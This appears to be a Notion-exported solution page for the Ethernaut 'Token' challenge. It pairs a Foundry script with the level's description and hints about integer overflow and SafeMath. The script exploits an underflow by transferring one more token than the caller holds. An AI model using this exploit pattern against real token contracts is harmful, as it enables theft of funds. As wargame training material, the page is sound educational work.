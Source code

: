 ```yaml
---
title: "Token"
date: "2024-02-01"
lastmod: "2024-02-14T16:51:00.000Z"
draft: false
difficulty: "⭐⭐"
prev: "Telephone-8b2069f0beb045b69400a28665c1d56c"
weight: 6
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/5"
next: "Delegation-0c005c8b167c4966926771bad0ff918c"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "4a8cb876-5f8c-4121-90f2-db4a7989f9b5"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-14T16:51:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel5.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "2fa50c76-9c63-4f19-b03a-b8fb1889da7c"
        name: "⭐⭐"
        color: "blue"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Telephone-8b2069f0beb045b69400a28665c1d56c"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Telephone-8b2069f0beb045b69400a28665c1d56c"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-01"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 6
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/5"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Delegation-0c005c8b167c4966926771bad0ff918c"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Delegation-0c005c8b167c4966926771bad0ff918c"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Token"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Token"
          href: null
  url: "https://www.notion.so/Token-4a8cb8765f8c412190f2db4a7989f9b5"
  public_url: null
UPDATE_TIME: "2024-02-23T22:50:28.123Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

interface Token {
  function transfer(address _to, uint _value) external returns (bool);

  function balanceOf(address _owner) external view returns (uint balance);
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_05");
        address publicKey = vm.envAddress("PUBLIC_KEY");

        vm.startBroadcast(deployerPrivateKey);
        Token token = Token(addr);
        uint balance = token.balanceOf(publicKey);
        console.logUint(balance);
        token.transfer(address(0), balance + 1);
        balance = token.balanceOf(publicKey);
        console.logUint(balance);

        vm.stopBroadcast();
    }
}
```


The goal of this level is for you to hack the basic token contract below.


You are given 20 tokens to start with and you will beat the level if 
you somehow manage to get your hands on any additional tokens. 
Preferably a very large amount of tokens.


Things that might help:

- What is an odometer?

Overflows are very common in solidity and must be checked for with control statements such as:


```text
if(a + c > a) {
  a = a + c;
}

```


An easier alternative is to use OpenZeppelin's SafeMath library that 
automatically checks for overflows in all the mathematical operators. 
The resulting code looks like this:


```text
a = a.add(c);

```


If there is an overflow, the code will revert.

